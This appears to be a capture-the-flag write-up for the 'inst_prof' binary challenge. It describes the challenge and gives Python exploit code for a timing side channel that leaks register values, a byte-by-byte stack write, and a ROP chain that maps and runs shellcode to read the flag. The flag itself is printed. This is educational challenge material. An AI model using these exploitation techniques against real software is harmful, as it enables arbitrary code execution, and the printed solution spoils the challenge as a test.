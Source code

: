 # inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, returning the runtime.
The do_test function is called in a while-true loop.
The Pseudocode looks as follows:

```C
void read_inst(void *page)
{
    read_n(page, 4);
}

void do_test()
{
    void *page = alloc_page()
    read_inst(page); //Insert 4 Bytes from User into a Template
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Template:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all we noticed, that the registers r14 and r15 are not altered between two iterations.
This allows to preserve minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        if t > thres:
            leak |= 1 << n_bit

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the start timestamp, the returned runtime can be artificialy increased depending on r14.
The time difference between 0 and 1 bits is roughly factor 2.
Even though, as we only use one attempt to read a bit (without averagig) to reduce the toal runtime, this attemp of leaking fails sometimes.


## Writing to Stack
To prepare a ropchain, we need to write arbitrary data to Stack.
The address we want to write to is stored in r15.
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The binary already contains lots of nice gadgets, such as alloc_page, read_n and make_page executable.
First we have to leak the address of the old Page and of course the binary base address for the ROP gadgets.

```python
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)
```

Then we prepare the rop chain.
We used the gadgets to allocate a new page, read arbitrary data and execute it.
rsi already contains 0x1000, the size of one page, what was usefull for alloc_page and read_n.
As the behavior for mmap is deterministic, we can compute the address of the newly allocated page from the previous allocated one.

```python
alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16

ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ropchain without crashing the programm, we used rsp+0x1000 as a target and placed it in front of the mains stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

Then we write the address of the ROP chain to rsp to trigger the execution.
```python
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))
con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
```

After some attempts, the Flag shows up:
```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```
